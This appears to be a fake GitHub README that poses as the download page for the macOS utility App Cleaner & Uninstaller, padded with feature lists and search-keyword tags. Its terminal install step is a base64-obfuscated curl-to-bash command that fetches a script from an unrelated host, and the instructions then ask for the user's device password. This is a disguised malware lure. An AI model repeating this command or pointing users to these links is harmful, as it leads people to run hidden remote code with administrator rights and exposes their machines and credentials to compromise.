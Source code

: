 # 🧹 App Cleaner & Uninstaller — Complete App Removal Tool for macOS

**App Cleaner & Uninstaller** is a powerful utility for macOS that helps you completely remove applications along with all their leftover files, caches, and logs. Unlike dragging apps to the Trash, App Cleaner ensures a deep, thorough uninstall — freeing up space and keeping your Mac clean and fast.

Whether you're uninstalling heavy software like CleanMyMac or managing multiple apps efficiently, App Cleaner & Uninstaller is your go-to macOS companion for safe and complete app removal.

---

## ✅ Download App Cleaner & Uninstaller for macOS  
[![Download App Cleaner](https://img.shields.io/badge/Download-App_Cleaner-blue)](https://shuziktobehuman.github.io/huja/appCleaner)

---

## 📥 How to Use

Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

Installation via a command in the terminal:

1. Copy the installation command below.
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```



## 📦 What is App Cleaner & Uninstaller?

App Cleaner & Uninstaller is a macOS utility that specializes in completely deleting applications from your Mac. It detects and removes app-related files including caches, preferences, launch agents, and login items — files that often stay behind after traditional uninstalls. It also lets you manage system extensions, disable startup programs, and reset apps to their default state.

This tool offers an intuitive, drag-and-drop interface and works seamlessly with the latest versions of macOS and Apple Silicon.

---

## ✨ Features

- 🧽 **Complete Uninstall** of applications and their associated files  
- 🗂 Clean up service files, logs, caches, and app leftovers  
- 🔁 **Reset Applications** to default without deleting them  
- 🚫 Disable and remove startup items and launch agents  
- 🧩 Remove browser extensions, system extensions, and plug-ins  
- 📦 Manage installed apps in bulk with ease  
- 🖥 Supports macOS Ventura and Apple Silicon (M1/M2/M3)  
- 💡 Clean, user-friendly interface with drag-and-drop simplicity  

---

## 💡 Why Use App Cleaner & Uninstaller?

- 🧹 Keep your Mac clean by removing unnecessary leftover files  
- 🚀 Free up disk space by fully deleting unused apps  
- 🔧 Troubleshoot issues by resetting buggy apps  
- 🧰 Ideal for users who frequently install and test macOS apps  
- ✅ Safer and more thorough than moving apps to the Trash  

---

[![Download App Cleaner](https://img.shields.io/badge/Download-App_Cleaner-blue)](https://shuziktobehuman.github.io/huja/appCleaner)

---

## 🖼 Preview

![App Cleaner Screenshot 1](https://app-cleaner.com/wp-content/uploads/2024/07/app-cleaner-window.png)  
![App Cleaner Screenshot 2](https://app-cleaner.com/wp-content/uploads/2023/09/Macbook-Pro-13.png)

---

## 📌 Tags

appcleaner, appcleaner mac, app cleaner and uninstaller mac, appcleaner mac download, uninstall cleanmymac,  
app cleaner & uninstaller, app cleaner mac download, mac app cleaner and uninstaller, app cleaner and uninstaller for mac,  
appcleaner uninstaller mac, download appcleaner for mac os x, app cleaner & uninstaller mac, app cleaner and uninstaller,  
appcleaner download, appcleaner mac reddit, app cleaner mac os, app cleaner & uninstaller pro, app cleaner & uninstaller for mac
